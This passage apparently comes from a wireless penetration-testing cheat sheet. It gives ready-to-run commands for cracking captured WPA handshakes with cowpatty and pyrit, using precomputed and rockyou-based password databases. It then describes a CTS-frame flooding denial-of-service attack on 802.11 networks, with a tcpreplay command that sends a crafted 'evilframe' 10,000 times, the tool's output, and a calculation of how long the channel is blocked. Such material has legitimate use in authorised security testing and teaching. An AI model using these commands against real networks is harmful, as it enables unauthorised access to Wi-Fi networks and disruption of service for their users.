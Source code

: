 And crackit with Cowpatty:

```text
cowpatty -d dic.genpmk -r Captura-01.cap -s <ESSID>  #Up to 360k/s
```

More faster? try with Pyrit:

```text
pyrit -i dic.genpmk -e <ESSID> -r Captura-01.cap attack_cowpatty  #Up to 2M/s
```

You still want to go faster? Try pyrit with Database:

```text
pyrit -i /usr/share/wordlists/rockyou.txt import_passwords
pyrit -e <ESSID> create_essid
pyrit batch

#Finally attack

pyrit -r Captura-01.cap attack_db  #Up to 20M/s
```

## DoS attacks

#### CTS Frame Attack

The protocol 802.11 is CSMA CA, CA is Collision Avoidance, so in that protocol appear two new types of packets. CTS \(Clear to Send\) and RTS \(Request to Send\) that provides to the network the ability to avoid collisions between frames.

What happens if we flood the network with 1000 CTS frames with the time field on his maximum value \(30.000 us\), if we flood with that TCP stream we will hijack all the bandwidth causing a Denial of Service.

First we need to capture and modify one Clear-to-send frame and modify the Duration to 30.000 us and modify the RA address.

Onced created out evil frame we just need to send several times to the network.

```text
tcpreplay --intf1=<IFACE> --topspeed --loop=10000 evilframe.pcap 2>/dev/null

Actual: 10000 packets (460000 bytes) sent in 3.01 seconds
Rated: 152428.1 Bps, 1.21 Mbps, 3313.65 pps
Statistics for network device: wlx00c0caaba818
        Successful packets:        10000
        Failed packets:            0
        Truncated packets:         0
        Retried packets (ENOBUFS): 0
        Retried packets (EAGAIN):  0
```

In that case we busy the channel for:

$$
Time Busy = 10.000 packets * 30.000 us = 30s
$$
